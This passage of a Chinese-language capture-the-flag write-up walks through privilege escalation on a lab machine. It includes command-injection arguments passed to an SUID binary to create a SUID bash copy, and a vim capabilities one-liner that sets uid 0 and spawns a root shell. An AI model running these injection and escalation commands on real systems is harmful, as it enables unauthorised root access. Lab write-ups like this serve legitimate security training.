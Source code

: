 ```bash
$ chmod 777 ./william
```

![image-20240709174028378](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-174029.png)

其中对于 script 程序我们可以看出其对于 leonard 存在 SUID 权限, 接着我将其复制到本地进行逆向分析

![image-20240709174034996](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-174036.png)

我们可以在其中发现一个 main 程序,. 对其进行分析我们可以作出如下分析:

- 如果我们没有传参就会执行 [admin.sh](http://admin.sh) 程序
- 如果进行传参, 就会转换为 1002 用户进行执行

进行了一些尝试后我发现可以利用其进行命令注入的操作

![image-20240709174041979](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-174043.png)

所以围绕这个进行操作

```bash
(remote) www-data@undiscovered:/home/william$ ./script "; cp /bin/bash /tmp/bash" 123
/bin/cat: /home/leonard/: Is a directory
(remote) www-data@undiscovered:/home/william$ ls -al /tmp/bash
-rwxr-xr-x 1 leonard www-data 1037528 Oct  5 12:18 /tmp/bash
(remote) www-data@undiscovered:/home/william$ ./script "; chmod u+s /tmp/bash" 123
/bin/cat: /home/leonard/: Is a directory
(remote) www-data@undiscovered:/home/william$ ls -al /tmp/bash
-rwsr-xr-x 1 leonard www-data 1037528 Oct  5 12:18 /tmp/bash
(remote) www-data@undiscovered:/home/william$ /tmp/bash -p 
(remote) leonard@undiscovered:/home/william$ id
uid=33(www-data) gid=33(www-data) euid=1002(leonard) groups=33(www-data)
```

之后我们可以在 leonard 家目录发现一个 ssh 私钥

### leonard —> root

在此我切换成了 SSH 私钥连接, 此时枚举 capabilities 程序我发现一个特殊的程序 [vim#capabilities](https://gtfobins.github.io/gtfobins/vim/#capabilities)

![image-20240709174052111](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-174053.png)

但是你利用 py 会报错, 所以替换成 py3 就可以实现操作了

```bash
leonard@undiscovered:~$ /usr/bin/vim.basic -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

![image-20240709174100321](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-174101.png)